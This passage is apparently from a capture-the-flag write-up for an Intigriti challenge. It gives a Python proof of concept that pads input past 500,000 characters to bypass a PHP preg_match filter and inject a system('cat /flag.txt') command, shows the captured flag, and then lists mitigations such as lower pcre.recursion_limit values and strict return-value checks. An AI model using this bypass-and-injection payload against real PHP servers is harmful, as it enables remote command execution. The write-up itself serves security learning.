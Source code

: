 Profit!
## 2.2) PoC

```python
import requests

URL = 'https://challenge-1223.intigriti.io/challenge.php'
data={'data':f"@dimariasimone on{'X'*500_001} {{system('cat /flag.txt')}}"}
#print(data)
r = requests.post(URL, data=data)
print(r.text.split(' ')[-1])
```

> INTIGRITI{7h3_fl46_l457_71m3_w45_50_1r0n1c!}

---
# 3. Mitigation

To mitigate the issue, we have some work to do.  
A solution could be to avoid using PHP altogether, but I understand that some people may be fond of it :/

Here are some mitigation steps:
- Under PHP, this maximum recursion depth is specified with the `pcre.recursion_limit` configuration variable and (unfortunately) the default value is set to 100,000. **This value is TOO BIG!** Here is a table of safe values of `pcre.recursion_limit` for a variety of executable stack sizes:

```php
Stacksize   pcre.recursion_limit
 64 MB      134217
 32 MB      67108
 16 MB      33554
  8 MB      16777
  4 MB      8388
  2 MB      4194
  1 MB      2097
512 KB      1048
256 KB      524
```

- Since `preg_match()` returns `false` on failure and `1` and `0` respectively if the match was successful and if not, we should do some strict type checking.

![](./assets/possiblefix.png)
